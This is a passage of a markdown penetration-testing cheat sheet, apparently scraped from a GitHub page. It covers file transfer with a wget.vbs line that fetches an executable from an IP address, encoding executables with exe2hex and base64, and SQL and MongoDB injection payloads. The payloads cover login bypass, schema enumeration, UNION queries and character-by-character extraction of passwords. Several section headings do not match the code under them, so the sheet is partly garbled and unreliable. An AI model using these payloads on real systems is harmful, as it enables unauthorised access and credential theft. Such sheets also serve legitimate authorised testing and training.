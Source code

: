 ```bash
wget.vbs http://10.1.1.1/file.exe file.exe
```

### Encoders <a name="encoders"></a>
```bash
# exe2hex
exe2hex -x file.exe -p file.cmd

# Base64
cat file.exe | base64 -w0
echo -n BASE64_STRING | base64 -d > file.exe
```

## SQL/NoSQL Injection <a name="sqlinjections"></a>
### Authentication Bypass <a name="authbypass"></a>
```bash
@@hostname
@@version
@@tmpdir
@@version_compile_machine
CURRENT_USER()
```

### Database Enumeration <a name="dbenumeration"></a>
```bash
# MySQL
x' OR 1=1
x' OR 1=1 LIMIT 0,1

# NoSQL (Mongo)
username[$ne]=wrong&password[$ne]=wrong
```

## Shell Injection <a name="shellinjections"></a>
```bash
# Select table names
SELECT table_name FROM information_schema.tables

# Select column names
SELECT column_name FROM information_schema.columns WHERE table_name='users'

# UNION SELECT
x' ORDER BY 5
x' UNION ALL SELECT 1,2,3,4,5

# NoSQL Retrieve username and password one character at a time
username[$regex]=a.*&password[$ne]=wrong
username[$regex]=ad.*&password[$ne]=wrong
```
